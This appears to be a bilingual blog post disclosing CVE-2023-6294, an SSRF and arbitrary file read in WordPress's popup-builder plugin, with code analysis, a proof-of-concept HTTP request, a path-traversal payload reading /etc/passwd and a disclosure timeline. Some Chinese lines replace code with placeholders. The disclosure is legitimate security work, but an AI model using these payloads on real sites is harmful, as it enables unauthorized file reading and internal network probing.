


# CVE-2023-6294：popup-builder <= 4.2.6 Admin+ SSRF & File Read|塞巴斯蒂安尼夫 -0day.work

In this blog post I'll describe the details of CVE-2023-6294, a local file inclusion in WordPress' popup-builder plugin.  
在这篇博客文章中，我将描述 CVE-2023-6294 的细节，这是 WordPress 的 popup-builder 插件中的本地文件包含。

First of all, this vulnerability is only exploitable in *multi-site* WordPress installations with at least subsite administrator privileges.  
首先，此漏洞仅可在至少具有子站点管理员权限的多站点 WordPress 安装中利用。  
Successful exploitation can lead to SSRF and arbitrary file read.  
成功利用该漏洞可导致 SSRF 和任意文件读取。

# Theory 理论

Let's dive into the code to get a deeper understanding.  
让我们深入代码以获得更深入的理解。

The API action `sgpb_import_subscribers` takes the parameter `importListURL` and eventually passes it to `wp_remote_get()` and `file()`.  
API 操作#0 #接受参数#1 #，并最终将其传递给#2 #和#3 #。

In `popup-builder/com/classes/Ajax.php` the constructor calls `$this->actions()`, which first evaluates the user's permissions using `$allowToAction = AdminHelper::userCanAccessTo();` and then registers the API action `add_action('wp_ajax_sgpb_import_subscribers', array($this, 'importSubscribers'));`.  
在#0 #中，构造函数调用#1 #，它首先使用#2 #评估用户的权限，然后注册 API 操作#3 #。

`userCanAccessTo()` is defined in `popup-builder/com/helpers/AdminHelper.php` and checks if the requesting user has the correct permissions and roles to access the API. So far, so good.  
`userCanAccessTo()` 在#1 #中定义，用于检查请求用户是否具有访问 API 的正确权限和角色。到目前为止，一切顺利。

Back in `Ajax.php`, the API's callback `importSubscribers()` is defined, where it first validates the nonce (`check_ajax_referer(SG_AJAX_NONCE, 'nonce');`) and then defines `$fileURL`: `$fileURL = isset($_POST['importListURL']) ? sanitize_text_field($_POST['importListURL']) : '';`  
回到#0 #，定义了 API 的回调#1 #，它首先验证随机数（#2 #），然后定义#3 #：#4 #  
Interestingly, there is a call to `sanitize_text_field`, but this WordPress built-in function does not sanitize the string for path traversal issues, only cross-site scripting and others.  
有趣的是，有一个对 `sanitize_text_field` 的调用，但是这个 WordPress 内置函数并没有清理路径遍历问题的字符串，只有跨站点脚本和其他问题。

The function then continues to capture the output buffer of the `importConfigView.php`:  
然后，该函数继续捕获 `importConfigView.php` 的输出缓冲区：

```php
ob_start();
require_once SG_POPUP_VIEWS_PATH.'importConfigView.php';
$content = ob_get_contents();
ob_end_clean();
```

This file is at `popup-builder/public/views/importConfigView.php` and it first passes `$fileURL` to `getFileFromURL`, which in turn will call `wp_remote_get()`: `$fileContent = AdminHelper::getFileFromURL($fileURL);`.  
这个文件位于 `popup-builder/public/views/importConfigView.php` ，它首先将 `$fileURL` 传递给 `getFileFromURL` ，然后调用 `wp_remote_get()` ： `$fileContent = AdminHelper::getFileFromURL($fileURL);` 。

Further, it executes the following line to read from `$fileURL`:  
此外，它执行以下行从 `$fileURL` 读取：  
`$csvFileArray = array_map('str_getcsv', file($fileURL));`

With that, the former allows to send HTTP requests to the URL provided in `importListURL` resulting in server-side request forgery (SSRF) and the latter allows to read arbitrary files by setting it to a file path.  
因此，前者允许向 `importListURL` 中提供的 URL 发送 HTTP 请求，导致服务器端请求伪造（SSRF），后者允许通过将其设置为文件路径来读取任意文件。

# Proof of Concept 概念验证

To see the vulnerabilities in action, first configure a multi-site WordPress installation with a separate subsite and non-superadmin account.  
要查看实际漏洞，请首先使用单独的子站点和非超级管理员帐户配置多站点 WordPress 安装。

Login as the subsite administrator and navigate to the popup-builder plugin in the menue. Create a dummy subscription, so that it shows up on the Import/Export settings page.  
以子站点管理员身份登录，然后导航到菜单中的弹出构建器插件。创建一个虚拟订阅，以便它显示在导入/导出设置页面上。

When submitting the import form, the following request will be send to the WordPress backend:  
当提交导入表单时，以下请求将被发送到 WordPress 后端：

```plain
POST /site2/wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Length: 156
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: [cookie]
Connection: close

action=sgpb_import_subscribers&nonce=7ab37e2ddd&popupSubscriptionList=8&importListURL=<import-path>&beforeSend=
```

When the `importListURL` is set to `../../../../../../../../../../../../../../../../etc/passwd`, the output will contain the first line of the `/etc/passwd`'s contents:  
当 `importListURL` 设置为 `../../../../../../../../../../../../../../../../etc/passwd` 时，输出将包含 `/etc/passwd` 内容的第一行：

```plain
<div class="subFormItem__title">
	root:x:0:0:root:/root:/bin/bash				
</div>
```

[](https://0day.work/content/images/2023/12/popup-builder-path-traversal.png)

Similarly, when we set `importListURL` to an URL, we can exploit the SSRF. For example, we start a simple HTTP server on localhost (`python -m http.server 1337`) and send a request to it with `importListURL=http://localhost:1337`. The output is:  
同样地，当我们将 `importListURL` 设置为 URL 时，我们可以利用 SSRF。例如，我们在 localhost（ `python -m http.server 1337` ）上启动一个简单的 HTTP 服务器，并使用 `importListURL=http://localhost:1337` 向其发送请求。输出为：

```plain
<div class="subFormItem__title">
	Hacked			
</div>
```

[](https://0day.work/content/images/2023/12/popup-builder-ssrf.png)

# Timeline 时间轴

-   2023.06.28 - Initial discovery  
    2023.06.28 -首次发现
-   2023.07.03 - Report to plugin developers  
    2023.07.03 -向插件开发人员报告
-   2023.11.22 - Report to WPScan to assign CVE-ID  
    2023.11.22 -向 WPScan 报告以分配 CVE-ID
-   2023.11.24 - Vulnerability acknowledged and CVE assigned  
    2023.11.24 -确认漏洞并分配 CVE
-   ~ 2023.12.28 - New version released  
    ~ 2023.12.28 -新版本发布
-   2024.01.31 - Public disclosure  
    2024.01.31 -公开披露
